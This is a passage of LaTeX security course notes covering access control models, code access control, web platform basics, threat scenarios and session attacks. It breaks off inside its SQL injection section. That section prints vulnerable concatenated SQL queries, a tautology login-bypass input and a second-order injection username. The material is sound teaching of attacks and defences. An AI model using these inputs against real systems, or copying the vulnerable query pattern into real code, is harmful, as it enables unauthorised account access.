Depending on the nature of the principal, different solutions are needed. For example the principal can be a (human) user, a (remote) computer, a user working at a remote computer, a user running a specific piece of code [2], et cetera, as illustrated in \textbf{table} 1.


\begin{table}[h]
	\caption{Examples of actors and actions in the general access control model; adapted from [2].}
	\label{tab:access-control:examples}
	\begin{tabular}{p{75px} | p{75px} | p{75px} | p{75px} }
		\textbf{Principal} & \textbf{Actions} 	& \textbf{Guard} & \textbf{Protected system} \\
		\hline
		Host 					& Packet send & Firewall							& Intranet 		\\
		User 					& Open file 	& OS kernel							& File system \\
		Java Program 	& Open file 	& Java Security Manager	& File 				\\
		User 					& Query 			& DBMS									& Database 		\\
		User 					& Get page 		& Web server						& Web site 		\\
		\hline
	\end{tabular}
\end{table}




Authentication proceeds by verifying one or more requirements. For example, whether or not [2]:
\begin{itemize}
	\item The user knows a secret, e.g. a password, PIN, or other variation
	\item The user has some physical characteristic of the user, e.g. using biometrics;
	\item The user possesses a token, e.g. using a smartcard or digipass;
	\item The user is at a specific location, e.g. through dialback;
	\item The user can do something, using signatures, CAPTCHAs (\emph{Completely Automated Public Turing test to tell Computers and Humans Apart}).
\end{itemize}



\subsubsection{Guard}

Next the guard continues with the authorization of the principal. Upon receipt of an action, the guard decides what to do with the action. Possibilities are to pass/drop, modify/replace, first insert other action, and so on [2]. In this text we will only consider pass/drop.

Guards usually have a local state, e.g. "protection state". During or at the end of the authentication process, the guard may change its state [2].

The guard is modeled by means of a security automaton. This is a set of states described by a number of typed state variables, where transition relations are described by predicates on the action and the local state [2].

Actions are written as procedure invocations. The behavior of the guard is specified by a declaration of state variables and implementations of action procedures. State variables determine the state space. The implementations have corresponding preconditions that determine the acceptability of an action and an implementation body that determines the state update [2].

An access control policy is "a set of rules that say what is allowed and what not" [2]. The semantics of a security policy is "a security automaton in a particular state" [2].

An example given by Frank Piessens [2] is shown in \textbf{figure} 2 and \textbf{listing} 1.


\section{Classic Access Control Models}

\subsection{Discretionary Access Control (DAC)}

Discretionary Access Control is a rather intuitive access control model. It is also one the most widely implemented ones. The objective of DAC is a creator-controlled sharing of information.

In DAC principals are users. The protected system manages objects, which are passive entities requiring controlled access. Objects are accessed by means of operations on them. Every object has an owner that has access to the operation set, and can grant the rights to use operations to other users.

Passing on of ownership is not always supported, or has one of more possible variants. For example whether or not is possible to delegate right to grant access or not, and in terms of constraints on revocation of rights.

DAC is typically not implemented with a centralized protection state. Typical implementation structures include using Access Control Lists, e.g. ACL's in Windows 2000, or using Capabilities, e.g. Open file handles in Unix [2].


\subsubsection{Access control matrix}

The DAC policy can be represented as an access control matrix, as shown in \textbf{figure} 3. The access control matrix lists for each object (column) the set of operations that the subjects (rows) are authorized to invoke upon them [1].

The subjects, or sessions, are threads or processes that perform operations on behalf of the user. A collection of all sessions with the same access rights, expressed as permissions, is called the protection domain. An access control policy assigns a permission set to each protection domain. Finally, the reference monitor enforces the security policy [1].

In the example we objects such as files with corresponding {read,write,...} operation sets, for programs {execute,modify,...}, and for databases the typical CRUD {create,read,update,delete} operations, and so on. The different subjects in the access control matrix then are authenticated to access a subset of these operations.


\subsubsection{Security automaton}



\subsubsection{Disadvantages}

The main advantage of discretionary access control is that it is conceptually simple [1]. When designing access control models, some choices and trade-offs will have to be made at some point, and as a result, discretionary access control also has a numer of disadvantages associated with it.

The first disadvantage is that it is cumbersome to use in administration and may introduce significant overhead when many users are involved. For example scenarios where a user leaves the company or user has been promoted to another function in the company, will require some reorganization of permissions within parts of the company's computer system [1,2]. To counter this problem, some implementations have provided the ability to create groups and negative permissions. Procedures: business procedure involving many operations on many objects Unfortunately, this is often insufficient [1,2].

Secondly, DAC is also not a very secure access control model. It is prone to social engineering and/or Trojan horse problems [1,2]. Both rely on the fact that an attacker can do everything the user can do once authenticated as that user. To solve this problem, users can be denied the right to change access rights, leading to Mandatory Access Control, discussed next. Alternatively, programs can also be regarded as no longer equal: distrusted programs run in a restricted environment [1].



\subsection{Mandatory Access Control (MAC)}

Mandatory access control (MAC) is an access control model designed to strictly control the information flow. It was designed by the military to function even in the presence of malicious software [1].

Instead of the notion of owner of an object, MAC uses system-wide rules stating which access is allowed. Users simply follow these rules.

A concrete example of the MAC model is Lattice Based Access Control (LBAC). In this model, a lattice of security labels is given, from highest to lowest: Top Secret, Secret, Confidential and Unclassified. Objects and users are then tagged with these security labels. A user can use the system with any level lower or equal to his/her clearance level [1]. The objective is then to enforce that users can only see information below their clearance and that information can only flow upward [2].

To achieve this, the model imposes the following two rules [1]:
\begin{enumerate}
	\item \textbf{No read up} : A subject labeled with level $l_{s}$ can only read from objects with a sensitivity of level $l_{s}$ or below. For instance, a subject cleared for confidential documents can never read top secret files;
	\item \textbf{No write down} : A subject labeled with level $l_{s}$ can only write to objects with a sensitivity of level $l_{s}$ or higher. For instance, a subject cleared for secret level can never write information to confidential files;
\end{enumerate}

Together they neutralize the Trojan horse problem. \textbf{Figure} 4 illustrates these rules.


\subsubsection{The lattice}

The typical construction of lattice goes as follows. Security labels are tuples of (level, compartment). Levels are ordered linearly, e.g. Top Secret - Secret - Confidential - Unclassified. Compartments are a set of categories, where category is a keyword relating to a project or area of interest. Compartments are ordered by subset inclusion [2].

Users can then initiate subjects or sessions, and these are labeled on creation. Users of clearance $L$ can start subjects with any label $L' < L$ [2]. \textbf{Figure} 5 shows an example of a LBAC lattice.

Figure 5 : LBAC lattice example.


\subsubsection{Security automaton}

The security automaton for LBAC is given in \textbf{listing} 3.



\subsubsection{Disadvantages}

Problems and disadvantages of LBAC include [1,2]:
\begin{itemize}
	\item \textbf{Flexibility} : Need for "trusted subjects" makes it less usable;
	\item \textbf{Business needs} : The model is not well suited for commercial environments;
	\item \textbf{Security} : Covert channels still form problems. E.g. by using physical signals of the system, e.g. power usage, CPU utilization, et cetera, information could still be leaked.
\end{itemize}



\subsection{Role-Based Access Control (RBAC)}

Role-Based Access Control (RBAC) is an access control model. Its main objective is to achieve manageable access control. The key concept of the model is the role. This is a many-to-many relation between users and permissions, which can be thought of as a named set of permissions that can be assigned to users. Hence, a role should correspond to a well-defined job or responsibility [2], e.g. shop keeper, stock manager, et cetera.

When a user starts a session, he can activate some or all of his roles. A session has all the permissions associated with the activated roles [2].

RBAC is usually implemented in databases or into specific applications, or in a generic way in application servers. It can be "simulated" in operating systems using the group concept [2].




\subsubsection{Security automaton}

\textbf{Listing} 4 gives the automaton for role-based acccess control.




\subsubsection{RBAC Extensions}

A variation on RBAC uses hierarchical roles. In this model a senior role inherits all permissions from its junior role.

RBAC roles may have to follow certain constraints. A distinction can be made between static and dynamic constraints. Static constraints on the assignment of users to roles are for example the static separation of duty: nobody can both order goods as well as approve payments [2].

Dynamic constraints are constraints on the simultaneous activation of roles, e.g. to enforce least privilege [2].



\subsection{Other Access Control Models}

In [2] a number of other models are listed. Two of them are briefly explained below: the Biba model and the Chinese wall model.

\subsubsection{Biba model}

The objective of the Biba model is the Enforcement of integrity by information flow [2].


\subsubsection{Chinese wall model}

The Chinese wall model is a form of dynamic access control model [2]. For example, a consultant can only see company confidential information of one company in each potential-conflict-of-interest class.






\section{Code Access Control}

\subsection{Motivation}

Modern applications often support run-time extensibility, possibly with downloaded code (e.g. applets or controls on web pages, browser plug-ins, web server extensibility (JSP / ASP), multimedia codecs, ...). One operation system process executes the application itself and all of its (possibly less trusted) extensions. One session or subject (process) typically has a fixed set of permissions. With untrusted code, the permissions of a subject may need to be reduced if the subject is currently executing less trusted code. As a result, classic operating system access control fails, so another access control architecture is needed [3].

A component is a piece of software that is a unit of deployment and third party composable. An application can consist of multiple components. Some of these components are trusted more than others. An application can be extended at runtime with new components. We need security technologies that enables secure execution of such applications [3].


\subsection{Sandboxing}

Permissions encapsulate rights to access resources or perform operations. A security policy assigns (static) permissions to each component. Every resource access or sensitive operation contains an explicit check that through stack inspection finds out what components are active. An exception is thrown if a problem has been detected [3].

A \emph{permission} is a representation of a right to perform some actions, e.g. FilePermission(name, mode) (wildcards possible), NetworkPermission, WindowPermission, ... Permissions have a set of semantics, hence one permission can imply (be a superset of) another one, e.g. FilePermission("*", "read") implies FilePermission("x","read"). Developers can define new custom permissions [3].

A \emph{security policy} assigns permissions to components, typically implemented as a configurable function that maps evidence to permissions. Evidence is security-relevant information about the component, e.g. Where did it come from? Was it digitally signed and if so by whom? When loading a component, the VM consults the security policy and remembers the permissions? [3]


\subsubsection{Stack inspection}

Every resource access or sensitive operation exposed by the platform class library is protected by a demandPermission(P) call for an appropriate permission P. The algorithm implemented by demandPermission() is based on stack inspection or stack walking. The fact that this is secure strongly depends on the safety of the programming language. This would not work for example in C [3].

\subsubsection{Stack walking}

Suppose thread T tries to access a resource. Basic rule: this access is allowed if all components on the call stack have the right to access the resource [3].

Basic algorithm is too restrictive in some cases, e.g. giving a partially trusted component the right to open marked windows without giving it the right to open arbitrary windows. A solution is introduced by stack walk modifiers [3]:
\begin{itemize}
	\item \textbf{Enable\_permission(P)} : Don't check my callers for this permission, I take full responsibility. Essential to implement controlled access to resources for less trusted code;
	\item \textbf{Disable\_permission(P)} : Don't grant me this permission, I don't need it. Supports principle of least privilege.
\end{itemize}


\textbf{Listing} 5 gives the automaton for stack walking.



\section{Conclusions}

Most access control mechanisms implement the Lampson model: Principal - Action - Guard - Protected system. Security automata are a powerful notion to represent the semantics of access control policies. Three important categories of access control policy models each have their own area of applicability. DAC in operating systems. RBAC in applications and databases. LBAC starting to find its use for integrity protection. Code access control requires other policy models [3].


\chapter{Web application security}\label{chapter:web-application-security}

\section{The web platform}

In what follows we'll briefly discuss the web platform. Most internet users will navigate the web using a web browser. A web browser is a piece of software that displays HTML, and executes JavaScript. It allows the user to interact with multiple sites at the same time, and handle user interface and network events.

Browsers also offer a powerful API to scripts:
\begin{itemize}
	\item Inspecting / modifying the page;
	\item Inspecting / modifying page metadata, e.g. Cookies;
	\item Sending / receiving HTTP (XMLHttpRequest API);
	\item Event handling.
\end{itemize}

The following paragraphs take a closer look at the typical elements that are used when navigating to a web page. These include the URL to find the resource, a stateless communication protocol to transer the application data and ways to introduce state, and a markup language and scripting langauge to view and run the web page/application.


\subsection{Uniform Resource Locator}

When a user wishes to access an online web page via his/her browser, he/she will enter the uniform resource locator (URL) of that page in the browser's address bar. An example of an URL is http://districted.wordpress.com/concepts/. \textbf{Figure 1} shows the URL structure. An URL consists of the following seven components of which some are optional [1]:
\begin{enumerate}
	\item Scheme/protocol name: e.g. http, https, ftp, ...;
	\item Credentials: login and password (optional);
	\item Address: either a DNS name or an IP address;
	\item Port: optional port number on the server;
	\item Hierarchical path name to the resource;
	\item Optional query string parameters;
	\item Optional fragment identifier.
\end{enumerate}


\begin{figure}[H]
	\begin{center}		
		
\includegraphics[width=0.9\columnwidth]{img/security/url-components}
		\caption{URL components. Optional components are indicated with dotted lines.}
		\label{fig:url-components}
	\end{center}
\end{figure}





\subsection{The HyperText Transfer Protocol}

Entering an URL into a browser navigation initiates an HTTP dialogue between browser and server. The server can be implemented in many different ways and essentially maps requests to responses [1]. The Hypertext Transfer Protocol (HTTP) is a stateless application-level request-response protocol that normally runs over TCP [1,2]. It is often used in combination with some mechanisms to track state [1] such as cookies and sessions, and often used in combination with authentication and/or secure communication extensions [1], like for example HTTPS.

HTTP request and response headers written in ASCII, and the HTTP contents are given in a MIME [2]. A general HTTP request consists out of a method, header and body, cf. \textbf{figure 2}. HTTP supports a variety of methods, but only two matter in practice, as shown in \textbf{table 1}. Other methods are for example DELETE, PUT, and HEAD [2]. HTTP request headers may take a several forms. Much of the metadata in an HTTP request header is security relevant [1].

\begin{lstlisting}[language=xml, caption=HTTP request., label=listing:http-request]
<METHOD> /path/to/resource?query_string HTTP/1.1
<header>*

<BODY>
\end{lstlisting}


\begin{table}[H]
	\caption{Part of the HTTP request API, adapted from \cite{Tanenbaum:2002:CN:572404}.}
	\label{tab:api:collections}
	\begin{tabular}{p{150px} | p{250px}}
		\textbf{Operation} & \textbf{Description} \\
		\hline
		\texttt{GET} 	& Read a web page. Intended for information retrieval Typically the body is empty. \\
		\texttt{POST} 	& Append to a web page. Intended for submitting information. Typically the body contains the submitted information. \\
		\hline
	\end{tabular}
\end{table}


\begin{table}[H]
	\caption{Some HTTP request message headers, adapted from \cite{Tanenbaum:2002:CN:572404}.}
	\label{tab:}
	\begin{tabular}{p{75px} | p{75px} | p{200px} }
		\textbf{Header} & \textbf{Type} 	& \textbf{Meaning} \\
		\hline
		Accept					& Request & The type of pages the client can handle. 							\\
		Accept-Charset	& Request & The character sets that are acceptable to the client. \\
		Host						& Request & The server's DNS name. 																\\
		Authorization		& Request & A list of the client's credentials. 									\\
		Referer					& Request & The previous URL from which the request came.					\\
		Cookie					& Request & Previously set cookie sent back to the server. 				\\
		\hline
	\end{tabular}
\end{table}


The general structure of an HTTP response is shown in \textbf{figure 3}. Similar to the request headers, response headers also contain security relevant metadata. Important HTTP response status codes are listed in \textbf{table 3}.

\begin{lstlisting}[language=xml, caption=HTTP response., label=listing:http-request]
HTTP/1.1 <STATUS CODE> <STATUS MESSAGE>
<header>*

<BODY>
\end{lstlisting}

\begin{table}[H]
	\caption{Status code response groups, adapted from \cite{Tanenbaum:2002:CN:572404}.}
	\label{tab:}
	\begin{tabular}{p{75px} | p{75px} | p{200px} }
		\textbf{Code} & \textbf{Meaning} 	& \textbf{Examples} \\
		\hline
		$1xx$	& Information 	& $100$ = server agrees to handle client's request. 		\\
		$2xx$	& Success 			& $200$ = request succeeded; $204$ = no content present \\
		$3xx$	& Redirection 	& $301$ = page moved; $304$ = cached page still valid 	\\
		$4xx$	& Client error	& $403$ = forbidden page; $404$ = page not found 				\\
		$5xx$	& Server error	& $500$ = interal server error; $503$ = try again later \\
		\hline
	\end{tabular}
\end{table}



\begin{table}[H]
	\caption{Some HTTP response message headers, adapted from \cite{Tanenbaum:2002:CN:572404}.}
	\label{tab:}
	\begin{tabular}{p{75px} | p{75px} | p{200px} }
		\textbf{Header} & \textbf{Type} & \textbf{Meaning} \\
		\hline
		Set-Cookie				& Response & Cookie for the client to store. 							\\
		Server						& Response & Information about the server. 								\\
		Content-encoding	& Response & How the content is encoded, e.g. gzip. 			\\
		Content-type			& Response & The page's MIME type. 												\\
		Last-modified			& Response & The last time the page was changed. 					\\
		Location					& Response & Tells the client where to send its request. 	\\
		\hline
	\end{tabular}
\end{table}


\subsubsection{HTTP Secure}

The HTTP protocol itself does not provide secure communication, but the HTTP Secure (HTTPS) protocol scheme runs HTTP on top of SSL/TLS, a standardized transport layer security protocol [1]. Secure Sockets Layer (SSL) is a software security package built in in pretty much all modern browsers. Via the SSL protocol, a secure connection is set up between two sockets. It handles compression and encryption [2]. SSL/TLS is very configurable, and the security guarantees it offers depend on configuration [1]:
\begin{itemize}
	\item Usually: communication integrity and confidentiality;
	\item Sometimes: server authentication;
	\item Every now and then: client authentication;
\end{itemize}


\subsubsection{Sessions on top of HTTP}

In order to group requests from the same user, a server creates a session-id and ensures that this session-id is sent with every request, by means of either Cookies, or embedding the id in URL's and/or form fields.

Cookies are small pieces of data that are stored by the server in the client's browser as key-value pairs using the Set-cookie header. In subsequent requests by the client, this cookie is automatically sent back to the web server using the Cookie header [1]. The cookie mechanism allows websites to build and maintain state over the otherwise stateless HTTP protocol [3]. The server can control various aspects, such as [1,2]:
\begin{itemize}
	\item Expiration date (Expires field);
	\item Domain and path scope of the cookie (Path field);
	\item Security aspects: limit to https, no access from scripts (Secure field).
\end{itemize}

\textbf{Listing 1} shows how you could set up a mechanism to keep track of a user as he/she is browsing your website using parameters in the query string. This is not ideal, but it works for simple applications.

\begin{lstlisting}[language=php, caption=Example of how state can be maintained using URLs and PHP., label=listing:]
<?php
$user = $_GET['user'];
if (empty($user)) {
	$user = $controller->get_new_user_id();
}
?>
<a href="http://www.somewebsite.com/nextpage?user=<?php echo $user; ?>">
	Next page
</a>
\end{lstlisting}


Web sessions are fragile from the point of view of security. Prof. Frank Piessens discusses a number of vulnerabilities in his slides [1], as discussed further in the text.


\subsubsection{HTTP Authentication}

Basic HTTP authentication can be done by including username and password in the Authorization request header, cf. \textbf{table 2}. Users are usually authenticated at application-level through a form where username and password are transmitted over HTTPS and validated by server application.

Single-Sign-On use federated identies to support a single user-id/password combination for multiple web applications.



\subsection{HyperText Markup Language}

HyperText markup language (HTML) is a markup language for creating web pages and other information that can be displayed in a web browser. It usually contains or contains references to CSS and JavaScript code. \textbf{Listing 2} shows an example of a simple HTML web page.

\begin{lstlisting}[language=java, caption=An example HTML web page., label=listing:]
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>
        <title>EXAMPLE</title>
        <meta name="description" content="Example web page"/>
        <meta name="keywords" content="html example" />
    </head>
    <body>
        <div>
            <p>This is an example HTML web page.</p>
        </div>
    </body>
</html>
\end{lstlisting}

The formatting commands in HTML correspond to a set of tags with associated attributes [2]. These tags and attributes can be used in HTML to include pointers to, and content from other sites, e.g. [1]:
\begin{itemize}
	\item The <href> attribute: clickable link to a URL
	\item The <img> tag: links to an image that is automatically retrieved and displayed
	\item The <script> tag: can link to a script that is automatically  downloaded and executed
\end{itemize}


\subsection{JavaScript}

JavaScript is a client side scripting language. It is considered a dangerous aspect of websites as it allows to run foreign code on a client machine [2].

\begin{lstlisting}[language=java, caption=A simple JavaScript script to welcome a user., label=listing:]
var name = prompt("Please enter your name", "your name");
alert("Hello " + name + "!");
\end{lstlisting}





\section{Threat scenarios}

In the first section we have sketched the web application platform. The Web is a complex platform that aggregates many stakeholders. What "Security" means is dependent on the context [5], and as a result means different things to different stakeholders. Countermeasures make assumptions about what stakeholders are malicious [1].

We discuss some common threat scenarios based on [1].


\subsection{Good browser interacts with malicious server}

In the first threat scenario the client interacts with a malicious server. \textbf{Figure} gives an abstract representation of this type of this scenario.

\begin{figure}
	\begin{center}		
		
\includegraphics[width=0.1\columnwidth]{img/security/threat-scenario-good-browser-bad-server}
		\caption{Good browser interacts with malicious server. Server attacks browser.}
		\label{fig:threat-scenario:good-browser-bad-server}
	\end{center}
\end{figure}


\subsubsection{Countermeasures}

The countermeasure against these threats is a defensive implementation of the browser by avoiding implementation level vulnerabilities and a safe design of the API offered to scripts:
\begin{itemize}
	\item Scripts have no general-purpose file system API (They do have site-specific local storage);
	\item Scripts have no general-purpose networking API (They do have site-specific networking capabilities);
	\item Scripts have no general-purpose GUI API (They do have a strong API to manipulate the web page they are part of);
\end{itemize}

\subsubsection{Attack variants}

Despite this countermeasure, many important attacks remain possible. For example exploitation of low-level vulnerabilities in the browser is a common technique for distributing malware [1].


\paragraph{Drive by download}

In a drive-by-download attack, malware is downloaded on the client's computer either by installing foreign corrupted software, or through virusses or other malware. Users may be tricked into downloading such software. These are typically spread using deceptive popups on websites or email attachments. [6]


\paragraph{Heap spraying}

Heap spraying is an attacking method to facilitate arbitrary code execution as the actual heap spraying cannot break any of the security boundaries by itself. A heap spray usually tries to attack memory structures to create a more predictable layout. [6]


\paragraph{Privacy-violating information flows}

History sniffing is an example of a privacy-violating information flow attack [7]. Browsing history may contain a fair amount of possibly privacy-sensitive information [1]. This attack is possible as in most browsers all applications share access to a single visited-page history, file cache and DNS cache.


\paragraph{Web-based device fingerprinting}

It is possible for the server to fingerprint the browser enabling it to track the browser as the user is surfing the web [1]. [3]



\subsection{Malicious server attacks other open sites}

In the second threat scenario, a malicious server attacks other open sites. \textbf{Figure} gives an abstract representation of this type of this scenario.

\begin{figure}[H]
	\begin{center}		
		
\includegraphics[width=0.3\columnwidth]{img/security/threat-scenario-bad-server-attacks-open-sites}
		\caption{Malicious server attacks other open sites.}
		\label{fig:threat-scenario:bad-server-attacks-open-sites}
	\end{center}
\end{figure}


The countermeasure against this threat is the same-origin-policy (SOP), described in the following paragraph.


\subsubsection{The Same-Origin-Policy (SOP)}

A same-origin-policy (SOP) is a collection of security restrictions implemented in browsers that can be roughly summarized as follows: <em>scripts can only access information belonging to the same origin as the script</em> [1].

An origin is a <scheme, address, port> triple, e.g.:
\begin{itemize}
	\item <http, www.kuleuven.be, 80>
	\item <https, www.kuleuven.be, 443>
	\item <http, www.kuleuven.be, 1080>
\end{itemize}

HTML content belongs to the origin from which it was downloaded, but included scripts belong to the origin of the html document that includes them. The rationale is that the author of the html page knows that the script is not harmful. This way, the SOP attempts to provide basic protection for good site A against malicious scripts belonging to malicious site M that the user visits at the same time.

However, this protection is not perfect. By inserting remote entities in the DOM, a script can trigger HTTP requests to other servers, performing state-changing requests to other servers. If the user's browser has privileged access to some servers, the attacker can abuse the user's privileges. For example if the user is behind a firewall, the script can access servers behind the firewall, or when the user has authenticated session with another server, the script can perform authenticated requests (a form of Cross-Site Request Forgery (CSRF)).

By inserting remote entities in the DOM, a script can trigger HTTP requests to other servers. By registering an event-handler for the onload event, the script can determine if that server exists and/or if it is accessible to the user of this specific browser. This way, an attacker can determine the existence of available resources.


\subsection{Malicious client or browser attacks server}

The third scenario involves a malicious client or browser attacking the server. \textbf{Figure} gives an abstract representation of this type of this scenario.

\begin{figure}[H]
	\begin{center}		
		
\includegraphics[width=0.1\columnwidth]{img/security/threat-scenario-bad-browser-good-server}
		\caption{Malicious client or browser attacks the server.}
		\label{fig:threat-scenario:bad-browser-good-server}
	\end{center}
\end{figure}

The main countermeasures for this scenario are: the implementation of access control / authorization on the server and defensive coding of the server.

Common attack vectors:
\begin{itemize}
	\item \textbf{SQL injection}, \textbf{Path injection}, \textbf{Command injection} : A command injection attack uses semantic gaps of the input handling between different components of an application. For example an input string for an SQL query has a specific syntax and meaning, but for the front-end application it is "just a string", allowing for potentially harmful input [4]. SQL and path injection are related attacks. SQL injection will be discussed later in this text;
	\item \textbf{Forceful browsing} : This attack exploits predictable URLs to otherwise private resources. For example if you know the string to a chapter you unlocked on a website has the URL http://somewebsite.com/chapter1/ then you may assume that the URL for chapter two will be http://somewebsite.com/chapter2/. Similarly, an attacker may try to retrieve information about other users et cetera;
\end{itemize}



\subsection{Attacker eavesdrops on or modifies network communication}

In the fourth scenario an attacker evedrops on the network communication or tries to intercept and modify it. \textbf{Figure} gives an abstract representation of this type of this scenario.

\begin{figure}[H]
	\begin{center}		
		
\includegraphics[width=0.3\columnwidth]{img/security/threat-scenario-evesdropping}
		\caption{Attacker eavesdrops on or modifies network communication.}
		\label{fig:threat-scenario:evesdropping}
	\end{center}
\end{figure}

The main countermeasure for this class of threats is the use of SSL / TLS.

Possible attack vectors:
\begin{itemize}
	\item Attacks on the Public Key Infrastructure;
	\item Attacks on SSL protocol implementations;
	\item SSL stripping;
\end{itemize}


\subsection{Attacker injects content into good site}

\textbf{Figure} gives an abstract representation of this type of this scenario.

\begin{figure}[H]
	\begin{center}		
		
\includegraphics[width=0.3\columnwidth]{img/security/threat-scenario-bad-server-injects-content}
		\caption{Attacker injects content into good site.}
		\label{fig:threat-scenario:bad-server-injects-content}
	\end{center}
\end{figure}


There are many ways in which an attacker can inject a script. For example:
\begin{itemize}
	\item \textbf{Cross-site scripting (XSS)} : This can be achieved by exploiting vulnerabilities similar to SQL injection vulnerabilities. A better name for XSS is script injection [1];
	\item \textbf{Distributing a malicious advertisement} : Many websites depend on advertisement for a significant portion of their revenues, therefore advertisements can affect a wide range of users;
	\item \textbf{Hacking a website that hosts a widely used script} : for example the jQuery library is used in a high percentage of websites, and many of them include the source dynamically. Hence, if one could hack the website and alter the source code, this could affect many websites;
	\item \textbf{The site may support third-party extensions (gadgets)};
\end{itemize}

Once part of a page, the script can violate confidentiality and integrity of the page (and corresponding session).



\section{Vulnerabilities and countermeasures}

\subsection{Session handling}

A session has usually an authentication level associated with it. Hence, if an attacker can take over a session, or inject requests into a session, he can act with authenticated user privileges.


\subsubsection{Session hijacking}

Session tracking is usually done by means of cookies, hence attackers may try to gain control over the session by stealing the user's Cookie for example. Session hijacking is an attack where the attacker gains access to the session cookie value. To achieve this, an attacker may sniff on the network, try stealing it through scripting, or simply by guessing it [1], e.g. brute force.

Countermeasures for these attacks are among others the use of SSL/TLS, HTTPOnly-flags on cookies, and the use of secure random number generators to make guessing the correct Cookie value much harder [1].


\subsubsection{Session fixation}

Session fixation is an attack where the attacker forces the victim to use a session-identifier of the attacker, for example through means of scripting [1]. This is possible when the application does not assign a new session id when authenticating the user. This way the attacker can obtain an authenticated session when the user logs into his/her account.

A possible countermeasure is to renew the session cookie when the authentication level changes [1].


\subsubsection{Cross-site Request Forgery (CSRF)}

Through CSRF the attacker tricks the browser into injecting a request into an authenticated session. This can be done by means of scripting or remote resource inclusion. To counter this, a secret token can be included in the response, the origin header should be checked strictly, or by using client-side solutions, e.g. CsFire [1].


\subsubsection{Clickjacking}

Clickjacking an attack where a user is tricked in clicking on a button or link. The "click" is then used to trigger a request. If the user is using an authenticated session, this may be exploited to gain control of the user's session.

The user can be tricked by layering transparent frames over a button or link such as an invisible iframe. A frame is a subunit of a window and can act like a smaller window.

Possible countermeasures are:
\begin{itemize}
	\item \textbf{Framebusting JavaScript code} : This is a countermeasure that prevents including a web page within a frame;
	\item \textbf{X-Frame-Options header} : The X-Frame-Options HTTP response header can be used to tell a browser whether or not it is allowed to render a page in a <frame> or <iframe>.
\end{itemize}


\subsection{SQL injection}

One of the most common attacks on web applications today are SQL injections. An SQL Injection Attack is an interaction with such a web application where the user succeeds in modifying the intended effect of the created SQL queries [1,8]. This way an attacker can get access to data that he/she is not authenticated to access otherwise.

Halfond et al. [8] describe SQL injection attacks with the following characteristics: the injection mechanism and the attack intent.


\subsubsection{Injection Mechanisms}

Any input used by the web application that can be set by the attacker is a potential injection site. Halfond et al. [8] lists a number of injection mechanisms:
\begin{itemize}
	\item \textbf{Injection through user input} : For example through HTML form fields;
	\item \textbf{Injection through Cookies} : These are not directly set by a web app user, but are attacker modifiable;
	\item \textbf{Injection through server variables} : For example using HTTP Request headers, which are not directly set by a web app user, but attacker modifiable;
	\item \textbf{Second-order injections} : Using persistent data to execute an attack when that data is used in a database call;
\end{itemize}


\paragraph{Injection through user input}

The following example is based on the tutorial by W3Schools. In this scenatio an attacker gives as input a tautology to gain access to the user account. The form data is submitted through an HTTP request method (POST) to the server.

\begin{lstlisting}[language=html, caption=The login input form in HTML., label=listing:sql-injection:result]
<form action="/login" method="post">
	<p>
		User Name:<br>
		<input type="text" name="username" value="">
	</p>
	<p>
		Password:<br>
		<input type="text" name="userpassword" value="">
	</p>
	<p>
		<input type="submit" title="Login"/>
	</p>
</form>
\end{lstlisting}


\begin{lstlisting}[language=sql, caption=Server code that processes the form input., label=listing:sql-injection:jaavscript]
uName = getRequestString("username");
uPass = getRequestString("userpassword");

sql = "SELECT * FROM Users WHERE Name ='" + uName + "' AND Pass ='" + uPass + "'"
\end{lstlisting}

\begin{lstlisting}[language=sql, caption=The resulting query string., label=listing:sql-injection:result]
SELECT * FROM Users WHERE Name ="" or ""="" AND Pass ="" or ""=""
\end{lstlisting}

\paragraph{Injection through Cookies}

Cookies are stored at the client site and sent back to the server via HTTP to maintain state, as we have seen earlier. A malicious client however, could alter the cookie's contents. If these contents are used in SQL strings at the server side, a client could then try to execute an SQL injection attack [8].


\paragraph{Injection through server variables}

Websites may log server variables, such as HTTP and network headers, and environmental variables, in SQL databases. If these strings are not properly sanitized, attackers may attempt to alter these variables and execute an injection attack. This can be achieved for example by modifying HTTP and network headers [8].


\paragraph{Second-order SQL injection}

A second order injection is a two phase attacks where the attacker first get some input in the database, and then the app uses this stored input to construct new queries [1].

An example of second-order injection goes as follows. Suppose password updating is implemented using the following constructed query:

\begin{lstlisting}[language=java, caption=Query for updating the password of a user{,} where username is loaded from the database., label=listing:sql-injection:second-order:javascript]
query = "UPDATE users SET password = '" + newPassword
    + "' WHERE  username = '" + username
	+ "' AND    password = '" + oldPassword + "'";
\end{lstlisting}


\begin{enumerate}[Step 1.]
	\item  Register as a user with name "admin' - -". No SQL injection at this point: the name is properly escaped and stored in the database.
	\item Update password, resulting in a query shown in \textbf{listing \ref{listing:sql-injection:second-order:sql}}.
\end{enumerate}

\begin{lstlisting}[language=sql, caption=The resulting query string., label=listing:sql-injection:second-order:sql]
UPDATE users SET password = 'newpwd'
